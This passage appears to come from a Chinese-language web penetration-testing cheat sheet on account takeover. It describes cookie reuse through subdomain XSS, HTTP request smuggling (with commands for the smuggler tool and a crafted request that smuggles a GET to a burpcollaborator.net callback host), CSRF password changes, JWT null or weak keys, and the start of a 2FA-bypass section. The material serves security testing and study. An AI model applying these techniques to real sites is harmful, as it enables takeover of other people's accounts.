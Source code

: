 1. 假设域名`user.test.com`和其它子域`*.test.com`共用cookie，在子域找到一个XSS漏洞，即可利用子域的cookie登录到`user.test.com`。（是不是有点像当年的点我链接就登录你XX空间、XX邮箱，原理相似）


## 利用请求走私接管帐户

请参阅 **HTTP 请求走私** 漏洞页面
1. 使用 **smuggler** 检测请求走私 (CL, TE, CL.TE)
    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
2. 创建一个请求，该请求将使用以下请求覆盖 `POST / HTTP/1.1` :
    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
3. 最终的请求数据包可能如下例子
    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```
    
参考案例
* https://hackerone.com/reports/737140
* https://hackerone.com/reports/771666

## 通过 CSRF 修改密码

1. 利用场景：应用系统修改密码处没有对旧密码进行验证，也没有做CSRF防御机制。
2. 构造一个CSRF 修改密码payload（利用Burp可自动生成）。
3. 将payload保存为html放到远程服务器中，让别人访问这个URL。

## 通过JWT空密钥或弱密钥接管帐户

JSON Web Token可用于对用户进行身份验证。

* 直接编辑JWT中的userid / Email / Phone等。
* 爆破JWT密钥。

## 双因子认证(2FA)绕过

### 修改影响包数据Bypass
